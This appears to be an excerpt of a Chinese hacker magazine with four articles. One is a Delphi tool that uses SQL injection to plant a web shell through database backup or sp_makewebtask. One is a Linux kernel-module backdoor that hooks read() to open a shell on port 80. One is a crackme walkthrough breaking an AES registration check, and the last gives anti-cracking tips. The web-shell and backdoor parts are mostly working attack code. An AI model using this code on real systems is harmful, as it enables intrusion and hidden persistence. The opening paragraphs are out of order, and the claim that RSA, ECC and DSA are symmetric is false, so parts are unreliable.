原理都分析过了，我们怎么利用 DELPHI 来实现它们的手工操作呢？其实方法是非常简单的。DELPHI 提供了一个 NMHTTP 控件。我们利用这个控件就可以向某个特定的 URL 提交参数，然后实现我们的自动注入功能。我马上要为大家讲解的这个程序有一个特点，也可以说成是一个缺陷吧，程序不去自动猜解 Web 的绝对路径，不去判断当前连接 SQL 数据库的当前账号的权限。我为什么要这么做？因为这两者用 SQL 注入是非常难得到的。所以，我们程序发送命令就不会考虑太多，成不成功你执行完自己去看看生成没有就 OK 了。

此，界面上的工作就做完了，如图 1 所示。

现在我们来写程序。首先定义一个 RECORD，如下所示：

> 不是吧，这么好的思路怎么能让它尘封！所以在小编的极度利诱与 MM 哀鸣等手段下，本期受邀的再一次献上了自己的大作。利用此脚本技术取得服务器管理顶级权限，相信这是脚本方面最伟大的思路了，完全将脚本的理念发挥了上来。大家赶快来本期的经典文章吧！

## 如何利用 DELPHI 得到 Web Shell

程序中用到的值，我们这里来看看有哪些：URL 路径，远程 WEB 绝对路径（通过其他方法得到，你一定有办法的），采用什么方法去得到 Web Shell（也就是两位的方法，你选哪一种）。我们同时要求点击一个按钮开始执行命令，和点击一个按钮来终止命令。最后就是新建的表的名称，以及表的字段名称，再次就是字段的类型。前面的我们在程序中放上输入、选择之类的控件就行了，后面的我们设一个选项按钮弹出相应设置，再把这些相应的设置用一个 RECORD 来保存。

首先，我们在主表单中放 3 个 EDIT 控件，名称分别是：UrlET（URL 路径的输入框）、ShellPathET（远程木马的位置）和 CustomBdoorET（自定义木马的位置）；再放两个 RadioButton 用来选择采用什么方式获取 Web Shell，CAPTION 分别取名为：BackUP DataBase 和 Web 作业；然后再放 3 个 SpeedButton 按钮，名称分别是：设置、开始、停止；最后再放一个 MEMO 控件，来显示当前添加的信息。

```pascal
Type
  SetOption = Record
    TableName   : String; // 用来保存要创建的表名
    FieldName   : String; // 用来保存要创建的字段名
    FiledType   : String; // 用来保存创建的字段类型
  End;
```

再定义一个全局变量：

```pascal
Var
  ISStop : Boolean; // 用来判断用户是否按下了停止按钮。
```

在表单创建的过程中，我们为 RECORD 记录输入默认值，代码如下：

```pascal
procedure TMainForm.FormCreate(Sender: TObject);
begin
  sOption.TableName := 'cyfd';
  sOption.FieldName := 'gmemo';
  sOption.FiledType := 'text';
end;
```

现在我们添加开始执行命令的代码。先定义 BDoorList 为 TStringList，主要目的就是把木马的内容加进来。创建两个变量来保存 UrlET 和 ShellPathET 的值，方便程序简化调用。在程序开始执行前，我们得先检查一下用户的输入。定义一个 CheckInput 函数，代码如下：

```pascal
Function CheckInput : Boolean;
Begin
  Result := False;
  if Trim(UrlET.Text) = '' then
  Begin
    Application.MessageBox('请输入URL地址！', '提示', mb_ok + mb_iconinformation);
    Exit;
  End;
```

在最开始处加入：

```pascal
if Not CheckInput then Exit; // 如果输入不合法就退出过程。
```

好了，如果用户输入没什么错，我们就继续下面的工作。

首先我们把 `IsStop` 设为假，创建 `BDoorList`。

```pascal
BDoorList := TStringList.Create;
```

再把木马内容加到 `BDoorList`：

```pascal
BDoorList.LoadFromFile(CustomBdoorET.Text);
```

这里我还要给大家说一下：用 `NMHTTP` 提交数据的时候，要把输入的一些特别符号转换成编码。我们这里要把空格和 `%` 符号替换成相应的编码，分别是：`%20` 和 `%25`，不然程序加不进数据。代码如下：

```pascal
BDoorList.Text := StringReplace(BDoorList.Text, '%', '%25', [rfReplaceAll]);
BDoorList.Text := StringReplace(BDoorList.Text, ' ', '%20', [rfReplaceAll]);
```

接下来，我们就提交建表的功能了。

```pascal
Memo.Lines.Add('建表...');
Memo.Lines.Add('');
NMHttp.Get(Url + 'CREATE%20TABLE%20[dbo].[' + sOption.TableName + ']([' + sOption.FieldName + ']%20[' + sOption.FiledType + '])');
```

这样我们就创建了一个表，然后向表中添加记录，代码如下：

```pascal
Memo.Lines.Add('加数据...');
Memo.Lines.Add('');
For i := 0 to BDoorList.Count - 1 do
Begin
  // 这里用一个循环把木马的内容加进去
  if IsStop then // 这里如果点了停止按钮程序将终止任务
  Begin
    BDoorList.Free;
    Exit;
  End;
  NMHttp.Get(Url + 'Insert%20into%20[' + sOption.TableName + ']%20([' + sOption.FieldName + '])%20values(''' + BDoorList.Strings[i] + ''')');
  Memo.Lines.Add('Add Line ' + IntToStr(i + 1));
End;

// 现在就是导出数据生成木马了
Memo.Lines.Add('导出数据...');
Memo.Lines.Add('');
if BKData.Checked then // 如果选中采用备份数据就执行下面的命令
  NMHttp.Get(Url + 'declare%20@a%20sysname;select%20@a=db_name();backup%20database%20@a%20to%20disk=''' + ShellPath + '''')
else // 如果是用 WEB 作业的形式
  NMHttp.Get(Url + 'EXECUTE%20sp_makewebtask%20@outputfile=''' + ShellPath + ''',@query=''select%20' + sOption.FieldName + '%20from%20[' + sOption.TableName + ']''');

// 我们再删除刚建的表
NMHttp.Get(Url + 'drop%20TABLE%20[dbo].[' + sOption.TableName + ']');
```

这样我们的任务就完成了。下面来释放变量：

```pascal
BDoorList.Free;
```

再向停止按钮中添加点击事件，一行代码就行了：

```pascal
IsStop := True;
```

到这里主表单的内容基本上完成了。现在我们来看设置表单中怎么设置。其实非常简单，主表单中已经定义了一个 `RECORD`，我们只需要将用户输入的新值，再次赋给 `RECORD` 就行了。

设置表单中先引用主表单，然后在界面中添加二个 `EDIT` 控件：

- 第一个名称为：`TableNameET`，保存用户输入的临时表。
- 第二个名称为：`FieldNameET`，用来保存用户输入的字段名。

再添加一个 `ComboBox`，用来保存用户所选的字段类型值，名称：`FieldTypeCombox`。

至此，其界面如图 2 所示。

代码如下：

定义一个过程，主表单好调用这个设置。

```pascal
Procedure ShowSet;
Begin
    Application.CreateForm(TSetForm, SetForm);
    With SetForm do
    Begin
        TableNameET.Text := sOption.TableName;
        FieldNameET.Text := sOption.FieldName;
        FieldTypeCombox.ItemIndex :=
            FieldTypeCombox.Items.IndexOf(sOption.FiledType);
    End;
    SetForm.ShowModal;
    SetForm.Free;
End;
```

在主表单中设置的点击事件中添加上 `ShowSet` 过程就行了。下面就是点击确定的代码了。

```pascal
if CheckInput then
Begin
    sOption.TableName := Trim(TableNameET.Text);  // 把用户的输入赋给 RECORD
    sOption.FieldName := Trim(FieldNameET.Text);
    sOption.FiledType := FieldTypeCombox.Text;
    Close;
End;
```

这里又有一个 `CheckInput`，主要就是检查用户输入的信息是不是合法。代码如下：

```pascal
Function CheckInput : Boolean;
Begin
    Result := False;
    if Trim(TableNameET.Text) = '' then
    Begin
        Application.MessageBox('请输入临时表名！', '提示', mb_ok + mb_iconinformation);
        Exit;
    End;
    if Trim(FieldNameET.Text) = '' then
    Begin
        Application.MessageBox('请输入字段名！', '提示', mb_ok + mb_iconinformation);
        Exit;
    End;
    Result := True;
End;
```

到这里程序就完了。

### 后记

程序是非常简单的，也没用到什么技术，用于新手练练手吧。写这个程序，我只用了 1 个小时不到就完工了，程序也经测试，都成功了，这是我第一次写这种类型的文章，有不足之处请大家原谅。

> 编后语：  
> 文章作者身经百战，相信读过我们《黑客防线》杂志的人都知道吧。文章没有说明什么高深的技术，旨在说明编程其实也是黑客的一种境界。你是否具有这种基本技巧呢？我们预言，程序代替手工注入将是以后脚本攻击的新趋势。

**难度等级：** 中级

**前置知识：** C++ 语言基础

## Linux端口复用

文／Nsniper-xhd

我们首先需要知道什么是端口复用，它就是在系统已经开放的端口上进行通讯，并且不影响系统的正常工作和服务的正常运行。

端口复用的功能是在端口复用的基础上进行连接、获得 Shell、上传下载文件、浏览目录、添加删除用户、改变用户口令等。端口复用只对输入的信息进行字符串匹配，不对网络数据进行任何拦截、复制类操作，所以网络数据的传输性能丝毫不受影响。建立连接后服务端程序占用极少系统资源，被控端不会在系统性能方面有任何察觉。

### 方法比较

端口复用实现的方法有很多，下面我们来做一下比较。

- 1. **过滤驱动**

  对 Linux 系统的网卡驱动进行过滤。这种技术涉及到可安装内核模块技术、网卡驱动原理和中断技术等，实现起来较为复杂，而且对内核版本要求较高，如果长期运行，还可能造成系统内核的不稳定。同时还会涉及到拆包、组包过程，如果要对大文件进行传输或要保证客户－服务器双方的可靠通信，要付出很大代价。

- 2. **过滤协议栈**

  可以对 TCP/IP 协议栈进行过滤，而且 Linux 系统也提供 6 个内核钩子，支持对内核的过滤。这样实现难度较小，造成系统不稳定的可能性比方案 1 要小得多。不过同样涉及到拆包、组包过程。

- 3. **过滤系统调用**

  这种方法是典型的 LKM 后门程序的实现原理，对用于网络通信的系统调用进行过滤。这种方法不用深入协议栈，实现起来简捷有效。

- 4. **UNIX 编程的其他技术**

  在用户空间调用访问协议栈的函数，如：BPF、SOCK-PACKET 类型的套接口、LIBCAP 抓包库、DLPI 等，这样在应用层就可以实现对协议栈的过滤。这种技术不用深入内核，稳定性好。不过，同样大多也难逃重新组包之嫌。

- 5. **运行期间感染技术**

  这种方法需要深入到已经运行服务程序的进程空间内部，如采用运行期间共享库注射技术，通过共享其 `FILE` 结构，增加引用计数，来共享 `dentry`、`inode`、`sock`、`socket` 等结构。这种方法是应用层设计的，对内核版本要求不高，不过如果对 80 等非超级用户运行的进程所开的端口进行复用的话，所获得的权限也只是普通用户权限，不能满足普遍需求。同时也很难实现对任意端口进行复用。

### 实现过程

经过大量试验对比分析，发现通过过滤系统调用实现端口复用是比较切合实际的方案，和 LKM 的其他技术相结合，效果更加理想。下面我们通过过滤系统调用实现端口复用，对端口 80 的 TCP 连接进行复用为例，对程序进行说明。

- （1）深入内核，截获系统调用 `read(int fd, void *buf, size_t count)`。
- （2）如果发现特征字符串（如“abcdefg”）就在内核启动我们的函数。

代码如下：

```c
#define PORT 80
#define MAX_BUF 1024
ssize_t (*orig_read) (int fd, char *buf, size_t count);
ssize_t new_read(int fd, void *buf, size_t count)
{
    ssize_t ret;
    char passwd = "abcdefg";
    char kbuf[MAX_BUF];
    struct file *file;

    ret = orig_read(fd, buf, count);
    bzero(kbuf, MAX_BUF);
    __generic_copy_from_user(kbuf, buf, ret);
    if (memcmp(kbuf, passwd, strlen(passwd)) == 0)
    {
        file = fget(fd);
        if (file->dentry->inode->sk->sport == PORT)
            kernel_thread(exe_func, fd, flags);
        fput(file);
    }

    return ret;
}

int init_module(void)
{
    orig_read = sys_call_table[SYS_read];
    sys_call_table[SYS_read] = new_read;
}

void cleanup_module(void)
{
    sys_call_table[SYS_read] = orig_read;
}
```

如前所述，`kernel_thread()` 实际上是调用 `clone`，这样，如果调用参数 `flags` 为 0，则表示复制（而不是指针共享）其内核结构，这些内核结构包括：

`mm_struct` 结构、`files_struct` 结构、`fs_struct` 结构、`k_sigaction` 结构。当然我们最关心的是 `files_struct` 结构，其相应的标志位是 `CLONE_FILES`。

由于我们要改变 `fs_struct` 结构中的两个位图：`close_on_exec` 和 `open_fds`，为了不影响父进程的正常运行，需要把该位设置为 0。

- （3）我们的内核函数 `exe_func()` 如下：

```c
#define MAX_ARG 32
static int exe_func(int fd)
{
    char arg[MAX_ARG];
    bzero(arg, MAX_ARG);
    my_itoa(fd, arg);
    clr_fd(fd);
    set_fs(KERNEL_DS);
    ret = execve(my_program, arg, 0);
    if (ret < 0)
        return -1;
    return 0;
}
```

函数 `my_itoa()` 的作用是将数字转换成相应的字符串。

函数 `clr_fd()` 的作用是对 `task_struct->file->close_on_exec` 中的相应位清 0。

函数 `set_fs()` 的作用是将用户空间范围设置为 0-4G。

这样，当我们调用 `execve()` 执行我们用户空间的程序 `my_program` 时，文件描述符 `fd` 对应的文件就不会被关闭。

函数 `clr_fd()` 的功能是对位图 `close_on_exec` 的相应位进行清 0。

其代码如下：

```c
#define FD_SET(fd, fdsetp) \
__asm__ __volatile__("btsl %1,%0" \
    : "=m" (*(kernel_fd_set *)(fdsetp)) : "r" ((int)(fd)))

#define FD_CLR(fd, fdsetp) \
__asm__ __volatile__("btrl %1,%0" \
    : "=m" (*(kernel_fd_set *)(fdsetp)) : "r" ((int)(fd)))

void clr_fd(fd)
{
    struct file *file;
    file = fget(fd);
    FD_SET(fd, file->open_fds);
    FD_CLR(fd, file->close_on_exec);
    fput(file);
    return;
}
```

这样，在我们的用户空间就可以用端口 80 所对应的文件描述符 `fd` 进行通信了。它既可以对用户输入的命令进行解释，又可以在 80 端口绑定 shell，还可以利用 80 端口进行文件的上传、下载等。

- （4）我们的用户空间程序如下：

```c
/* my_program */
#include <stdio.h>

int main(int argc, char *argv[])
{
    int fd = atoi(argv[1]);
    ...
}
```

### 总结

> 这种方法是内核和应用层相结合的一种漂亮复用方法。工作在 TCP 层上，由内核维护整个 TCP 连接，双方通信稳定可靠，同时还可以结合 LKM 的隐藏机制，做到隐藏文件、目录、进程、端口以及安装伪装执行，使被控主机很难发现被安装的后门。由于是基于内核做工作，所以可以复用系统的任意端口，并且具有超级用户权限。

icefire：这期文章是 Cracker 初级教程系列的第四篇。上期讲的是 DES 算法，而风行 20 多年的 DES 时代行将结束，因为随着 CPU 主频的提高，Cracker 们宣称：只要用主频 400MB 的计算机，任何 DES 标准的加密文件都可在 5 分钟内破译！于是，1998 年 8 月，随着 AES 的诞生，结束了 DES 时代。本文通过一个简单的 Crackme 实例来了解 AES 在加密中的基本应用，在文中，利用了 SoftICE 等工具，破解的目标是 crackme.exe 程序，已经收录到光盘中，本期的 Crackme 程序用到了 AES 加密算法，难度适中。

- 难度等级：中级
- 前置知识：基本跟踪知识、基本汇编知识、密码学基本知识

## Cracker 初级教程之

## AES 算法破解

AES 的全称是 Advanced Encryption Standard，即高级加密标准。该项目由美国国家标准技术研究所（NIST）于 1997 年开始启动并征集算法，在 2000 年确定采用 Rijndael 作为其最终算法，并于 2001 年被美国商务部部长批准为新的联邦信息加密标准（FIPS PUB 197）。

FIPS PUB 197 中说明该标准的正式生效日期是 2002 年 5 月 26 日。该标准将被 NIST 每 5 年重新评估一次。

AES 采用的 Rijndael 算法的设计者是 JoanDaemon（Proton World Int'l）和 Vincent Rijmen（Katholieke Universiteit Leuven，ESAT-COSIC），算法的名字来自两人名字中字母的组合。Rijndael 是一个对称的分组加密算法，分组长度和密钥长度都可变，可分别单独指定为 128 比特、192 比特和 256 比特。但 AES 中的数据分组长度只采用了 Rijndael 中的 128 比特，而不使用 192 和 256 比特，密钥长度和 Rijndael 的一致，也分别为 128 比特、192 比特和 256 比特，并分别被称为 AES-128、AES-192、AES-256。

AES 和传统的分组密码算法不同的是，它不采用 Feistel 结构（比如 DES 中采用的），而是采用了 3 个不同的可逆一致变换层：线性混合层、非线性层、密钥加层。具体的算法数学基础和过程请详见：
http://csrc.nist.gov/publications/fips/fips197/fips-197.pdf

本实例是 lordor[Nuke Group] 编写的 AES 算法的 Crackme 程序（已收录到光盘，文件是 crackme.rar）。

首先可以使用 PEiD 来检测 crackme.exe，看看是否加壳了，还好，Lordor 特善良，没有加壳。另外 PEiD 有一个插件 kanal，可以检查文件中是否有已知的加密手段，我们可以在 kanal 中明确看到该 crackme 的确使用了 Rijndael。

我们用 SoftICE 的 Symbol Loader 载入并运行 crackme.exe。

点击 Help-->Register，可以看到程序已经给出了一个 code：718368679（注意：不同机器不同，我们称其为机器码）。

然后我们在 Serial 框内随意输入一个序列号，用 SoftICE 下一个断点 `bpx getdlgitemtexta`，然后点击 Check，我们就会发现下面的代码：

## AES 算法的识别、跟踪技巧及 Crackme 实例分析

### 1. AES 算法的判断识别

AES 中有自己特殊的 S 盒与逆 S 盒，可以将此作为判断标志，比如：S 盒开头为：

637C777BF26B6FC53001672BFED7AB76CA82C97DFA5947F0……

解密过程使用的逆 S 盒开头为：

52096AD53036A538BF40A39E81F3D7FB7CE339829B2FFF87……

我们用十六进制编辑器打开目标文件搜索或在内存中搜索，如果找到的话就基本可以确定目标是采用 AES 的算法。

### 2. AES 算法分析的基本技巧

若要跟踪如何加密或解密的过程，那是非常麻烦的。有一个偷懒的办法，一般 C 语言的实现 AES 算法都会在正式加密数据前进行初始化密钥，如果这个 Call 被你找到的话就可以了，因为这个 Call 会传递 key 字符串。找到 key 就意味着我们可以自己用程序来计算。

### 3. 实例分析

注意，到这个时候还是无法显示图片，有暗桩（图 1）！

图 1

我们于是是在 16 位注册码某些不确定部分上下断点。经过多次尝试，使用了 `bpmd 40e308 r`，我们发现了以下代码：

```asm
004015EE  MOV  DL,[0040E344]
004015F3  CMP  DL,[0040E30A]
```

将机器码的第 5、16 位和注册码的第 8 位比较。

```asm
004015FB  JNZ        00401663
```

不相等则错误。

```asm
004015FD  PUSH       EBX
004015FE  CALL       [USER32!GetDC]
```

相等则正式申请显示 DC。

```asm
00401604  MOV        ESI,EAX
00401606  PUSH       ESI
00401607  CALL       [GDI32!CreateCompatibleDC]
```

这样才真正显示出图片！

## AES 算法总结

下面是分析过程中所用的断点：

- `BPX USER32!GetDlgItemTextA`
- `BPX 00401350  DO "r eip 401352"`
- `BPX 00401371  DO "r eip 401373"`
- `BPX 004012E8  DO "r eip 401304"`
- `BPMD 40E308 R`
- `BPX 004015FB  DO "r eip 4015fd"`

注册过程实际上是这样的流程：

- 取得用户输入的原始字符串（序列号），进行 AES 加密；
- 将原始字符串转化成 16 进制表示，和（1）所得的结果重叠存放（如果位数正确的话将覆盖）；
- 将（2）的结果用 AES 解密，得到内部注册码。

内部注册码必须符合以下要求：

- 长度为 16 字节；
- 开头为 `0`，结尾为 `=`；
- 第 6 位必须等于机器码的第 1 位；
- 第 7 位必须等于机器码的第 4 位；
- 第 8 位必须等于机器码的第 5 位；
- 其他位没有限制。

我们知道 AES 的算法是对称的，我们就可以构造一个内部注册码，通过 AES 的加密得到一个原始的可用的序列号。

对于机器码为：718368679 的情况，转化为 16 进制为 2ad16fa7，即 2ad16fa7，我们构造下列代码：

```text
0^^^^216^^^^^^^=
```

（其中 `^` 表示是任意字符）

采用以下形式：

```text
01234216ABCDEFA=
```

由于 Lordor 在编写这个 Crackme 的时候留了一个后门：

```asm
00401294  CALL  004023B0
```

这是一个 AES 加密的呼叫，我们可以直接利用，在注册对话框中直接输入：

```text
01234216ABCDEFA=
```

然后将断点设到 00401294，看内存 40E304 处就是 16 进制的原始序列号，翻译成字符串就是：

```text
C07FDE0FC24948F1EE245B28E362B317
```

AES 的算法主要用于对数据的加密，密钥是必须保密的，但本 Crackme 为了介绍 AES 算法，而将密钥直接写在程序中，否则的话单纯的数据解密将不可行。

```asm
00401230  PUSH       EDI
00401231  PUSH       10
00401233  PUSH       10
00401235  PUSH       00408210
0040123A  LEA        EAX,[ESP+18]
0040123E  PUSH       EAX
0040123F  LEA        ECX,[ESP+2C]
00401243  CALL       00401840
```

另外，Lordor 为了方便大家学习，故意留了后门（我也是他告诉我后才明白的）。

## DES 现在与 AES 将来

在上一期我们看到了 DES 的介绍，对比一下，可以发现 DES 及 AES 都是属于明文分块加密术，加密与解密对称，但 AES 作为 DES 的替代者，解决了 DES 密钥过短而存在攻破的可能。目前可以用 AES 长于 256 位的密钥来加密数据，可以保证极强的安全性。

目前在市面上看到较多的是采用 DES 算法软件注册算法，可能由于 AES 刚出来，目前软件用 AES 当作注册算法一部分还未有大量普及（毕竟 DES 已经有 20 多年历史了），不过我们看到 AES 长密钥的优势会满足现在加密数据，如与 RSA、DSA 等公钥算法结合，加密关键密钥，起到极强的安全性。

希望大家通过这两期的加密算法的介绍，能够对分组密码术的原理、应用有一个深入的认识。

icefire：中国的共享软件正在飞速地发展，每天都会涌现出许多优秀的国产共享软件，在这种环境下，共享软件的软件保护（Software Protection），即如何能使你的程序避免被破解或难以被破解，越来越成为中国几百万程序员所关注的问题。本文作者是一个优秀的程序员，将他多年从事软件防护的经验和盘托出，对于广大共享软件的开发者而言，不啻是一道什锦好菜。

适合对象：程序员

前置知识：程序编写经验

## 您将是一个好的软件保护

文／LingDi[Nuke Group]

编写一个好的软件保护并不是一件容易的事情，但是却也绝非不可能。请记住：如果你在程序中使用了一个公开的或被人所熟知的保护模块、动态连接库、控件，或者是一种保护方法，那么可能会使 Cracker（即破解者）的工作容易很多。大多数的 Cracker 都有很多专门针对这些公开保护模块或加密方法的破解工具和破解办法，目前有 80%～90% 的公开保护模块已经有了相对应的解密工具或方法，所以一个好的软件保护的关键是选用一种非公开的或者鲜为人知且有效的方法或者模块，这样可以使得 Cracker 花费更多的时间在你的软件保护上，或者使其放弃继续破解你的软件。

以下是我归纳总结的一个好的软件保护的特点以及规范，若你能妥善应用，将必定会有效地 Anti-Crack。

### 1. 在编程过程中尽量不要输入任何描述性的信息

举个例子，如果你的程序中包含一个被命名为“TestRegistration”的函数用来检测注册信息的正确性，那么当 Cracker 反汇编你的程序之后，将很容易找到这个关键函数，从而有针对性地进行详细分析。又如：你将程序的注册窗体命名为“REGFORM”，Cracker 也会很快确定关键位置加以分析。这一条在使用 Delphi、VB 或者 BC 编译的软件中尤为突出。

### 2. 在编译后的软件中应尽量避免多余的提示信息

如果当用户输入了一段注册码后你的程序给出了提示信息，如“注册成功，感谢您使用 XXXX……”或者“注册失败，注册码格式必须为 XXXX……”等，那么你的这些提示信息将会以明码的形式保存在程序中，几乎通过任何一种反汇编工具，Cracker 都可以很容易找到这些提示信息，从而确定关键的注册码计算位置，以及对比语句。如果你在编程的时候加入了 Anti-Crack 代码，那么建议您当检测到用户有破解企图之后，不要给出任何提示信息，而是在系统的某个地方做一个记号，随机地过一段时间后使软件停止工作，或者装作正常工作但实际上却在所处理的数据中加入一些垃圾。否则很容易被 Cracker 所发觉，并进行更彻底的修改。

若基于某些特殊情况必须加以提示，那么想办法实现动态创建这些对话框，要比将这些提示信息以明码的形式保存在资源中、待需要的时候调用要好得多。

### 3. 注册算法中应当至少使用一种标准加密算法

强烈推荐您在程序中至少使用一种标准加密算法，个人推荐 RSA1024、ECC 或者 DSA 这 3 种对称算法，即使这种算法无法防止你的程序被破解，最起码也会使 Cracker 花费更多的时间来破解你的程序。若你在应用这些算法的时候使用得当，那么可以使 Cracker 没有办法做出你软件的注册机（KeyGen）。

### 4. 随时验证注册信息的正确性

在一个不起眼的地方或者一个 Cracker 想不到的时间来验证注册信息的正确性或者程序的完整性，是一个非常有效的保护方法，因为 Cracker 非常厌烦破解这种软件保护，它使得你的程序很难被真正破解。

### 5. 尽量避免在用户输入完注册码后立即进行注册码验证

这样做会使 Cracker 难以确定你的程序验证注册码这部分代码的具体位置，从而加大破解的难度。比如很多共享软件在你输入完注册码后会要求你重新启动程序或强制关闭程序，等第二次启动的时候再在某一处验证你刚才所输入的注册信息的正确性。最终的目的都是让 Cracker 很难确定你程序真正判断注册信息正确性的代码位置。

同样地，在用户输入完注册信息后执行一段无关紧要的判断代码，然后在其他地方再进行真正的注册验证，也是一个不错的办法。

### 6. 在你的程序中添加软件完整性验证信息

若你在程序中添加了校验信息以及验证代码来判断程序的完整性，将使 Cracker 无法简单地通过破解补丁来修改你的程序。当然这对于内存补丁（Loader）可能不会有很好的效果，不过如果程序员设计得当，同样可以根据这一条完成对内存代码的 CRC 或者其他算法的校验，来使 Cracker 无法轻易从内存修改下手破解。当你能将这条妥善地应用后，将会很有效地防止 Cracker 修改你的程序或者通过编写 Loader 来载入破解。与第三条搭配的话，就是一个完整的 Anti-Crack 方案了。

### 7. 分布验证可以使你的程序更难被破解

若你能很好地应用第 6 条，并且在条件允许的情况下，建议您可以多次测试注册信息的正确性或程序的完整性，而不是一次验证，这样可以使 Cracker 难以明白你软件的完整注册算法。

验证的时候，Cracker 通常都难以破解你的程序，因为他们常会漏掉一处或者多处验证点。

### 8. 应该充分利用“花指令”

“花指令”对于普通程序员来说可能是一个很难理解的概念，但相对地也是 Cracker 比较厌烦的一种软件保护方式。所以，这条更多取决于编程人员的技术条件。在共享软件中有效地应用花指令，可以有效地防止多数反汇编软件对你的程序进行正常的反汇编，而且反汇编后的代码根本无法理解。

关于“花指令”的具体介绍和技术实现方法，在网络中有大量的文章，我在此就不重复了，有兴趣的朋友可以自行翻查资料。

### 9. 不要将用户的注册信息保存在容易找到的位置

若你将用户的注册信息简单地保存在 Windows 的注册表中，或者一些明显的 INI 文件中等，将会使 Cracker 很容易地找到它们并进行替换或者修改。推荐将注册信息保存在一个不会被轻易猜测到的地方，比如命名为一个 DLL 文件存放在系统目录下，或者将注册信息附加在一个一般不会被用到的系统文件末尾。这样即使 Cracker 使用监听工具来记录你程序的读写资料，也仍然需要花费很多时间来进行分析。

### 10. 在注册算法中使用单一条件作为运算关键值

在共享软件的注册算法中，应当尽量使用一些每个用户所独有的特征信息，比如使用者电脑中的硬盘序列号、CPUID、主板信息、BIOS 信息等等，这样可以防止一个正版用户非法地在多台机器上注册，同时也可以避免当软件被 Cracker 破解后，通过发布一个正确的注册信息而流传。

### 11. 不要在意您设计的注册码过长

很多软件的作者担心用户需要输入的注册信息过长而引起客户的反感，其实这无伤大雅。一个足够长的注册码可以使 Cracker 难以理解，并且可以有效地预防对注册码的穷举攻击。如果编程水平允许，完全可以在注册信息中包含一些程序运行必须的重要信息或者数据，这样当 Cracker 强行修改了你的程序跳过注册码验证，将使它无法正常运行。

### 12. 通过几个特定的系统文件，例如 System.dat 或 Bootlog.txt 来得到当前的系统日期

若你的程序未注册版本进行了时间限制，则可以通过获取一些特殊文件的日期来判断软件是否过期，不要依赖于 `GetLocalTime()`、`GetSystemTime()` 这样众所周知的 API 函数来获取系统时间，这样很难防止用户对日期进行非法修改。

### 13. 如果你限制了未注册版本的某些功能，请确定这些功能的代码并没有写入限制版本中

很多程序员经常把软件写成功能限制版本，只有在注册后才能使用全部功能（比如保存文件）。在某些情况下，破解者可以修改程序代码解除这些限制，但如果你的软件中根本就不包含这种功能，Cracker 就很难破解了。

### 14. 如果你的程序被破解了，尽快发布新版本

频繁的升级会使 Cracker 厌烦继续破解你的程序，尤其是当 Cracker 只能使用强行修改你的程序的方法来破解它的时候，因为破解器打的一般对修改后的程序是无效的。在不改变注册算法的前提下，使用正版的注册用户是不会怪罪你频繁升级的。

### 15. 使用当前最优秀的动态压缩／加壳工具来保护你的软件

随时注意新的加壳工具，不断地尝试、使用，并关注哪些是 Cracker 头痛的，使用这些新的工具来保护你软件的新版本。一个好的加壳工具会有效地加大破解难度。

### 16. 如果你的程序通过序列号注册，那么请确保正确的序列号永远不会完整地出现在内存中

这样可以避免通过简单的搜索来得到您程序的正确注册信息，因为很多程序是通过对比正确的序列号和错误的序列号两个字符串来验证注册是否成功的，这使得 Cracker 可以通过简单的搜索或者调试来得到将要对比的正确序列号，而不需要知道你使用了什么方法产生了它。最好的办法是使用同样的方法来对用户输入的序列号和正确的序列号进行编码，然后对比编码结果，这样就可以使正确的序列号不会出现在内存中。你也可以分很多步来验证用户输入的序列号的正确性，来确定用户输入的序列号并非是使用调试器从内存中得到的。

### 17. 考虑在线注册

互联网是一个很好的注册媒介，在线注册也可以有效地防止你的程序被破解，或增加 Cracker 破解你程序的时间。例如，将一些程序的关键代码或文件保存在你的服务器上，用户点击注册按钮后，程序将注册信息发到服务器上进行验证，若验证成功则发送关键的代码或文件回到客户端，程序正常运行；反之程序则无论如何无法正常运行。若你的软件跟网络密切相关，且又能保证你的用户群都有联网的条件的话，那么我个人强烈推荐你考虑使用一些技术进行网络验证。

### 18. 尽可能多地测试你的软件保护

软件正式发布之前一定要在各类操作系统中进行详细的测试。因为通常一些保护方法或者模块或者加壳后的程序可以正常运行在 Win9X 系统下，但是却无法在 NT 内核的操作系统中运行。

## 后话

我认为，依目前的技术和设备来讲，是不存在无法被破解的软件的。加密和解密是一个永远争论不休的话题，任何一方找到了新的方法或应用了新的技术，另一方都会很快出现与之对应的新技术和新方法。即使你能完全掌握上面的所有规则并能妥善地理解并应用，也没有任何人敢保证你的软件不会被破解。我们所希望的，就是能达到相对难以破解，或者破解你软件所需要的成本超出你软件本身的价值，这样就足够了。

推荐几个我认为相对来说比较优秀的加壳工具：

- ASProtect v1.23
- Krypton 0.5

这个壳在 pack 界当选老大是毫无异议的，当然这里的老大不仅指它的加密强度，而是在于它开创了壳的新时代。SEH 和各种流行的 anti、BPM 断点的清除都出自这里，更为有名的当属 RSA 的使用，使得 demo 版无法被 crack 成完整版，code_decrypt 也源于这里。IAT 的处理即使到现在看来也是很强的。它的特长在于各种加密算法的运用，这也是各种壳要学习的地方。但是它的缺点就在于 anti 太温柔，最终让各位老大们轻松地进行研究，这个壳就失败在这个地方。

这个壳的特点是它使用了多线程，据我所知是第一个在壳中使用多线程的工具。但强度一般，兼……兼容性也不够理想，很多情况下根本无法成功给软件加壳。

## Armadillo

最新版本应该是 3.20，这是一款非常优秀的保护软件，应用了很多新的优秀技术和理念。可以运用各种手段来保护你的软件，同时也可以为软件加上种种限制，包括时间、次数、启动画面等等。

## ACProtect 1.10

该壳变形做得好，强度和 aspr 新版差不多，并且提供详细的 SDK 和帮助文件，作者是中国人。新版中加入了 API 分解技术，可以将你软件中的一些 API 和壳中包含的 API 进行替换，使加壳后的程序更难脱壳。

## Xtreme-Protector

这个可以说是目前最强悍的壳，也是驱动程序使用最为熟练的一个壳，驱动有解码、anti 的作用，多线程解码，RUNTIME 解码，繁多的花指令。用 SOFTICE 脱这个壳基本是不可能的！除非用一个不依靠 INT3、INT1 和 DRX 来下断点的调试器。

## DingBoy's PELock

中文名称“幻影（DBPE）”是目前公认的国产加壳工具中相对来说最强悍的，作者 DingBoy 是一个非常优秀的 Cracker 以及 Coder，Anti 比较强悍，而且带有繁杂的花指令，但是跟上述的一些国外加壳工具来比仍然有一些不足，DingBoy 也在不断完善这个工具。

还有新壳不断地涌现中……

### 编后

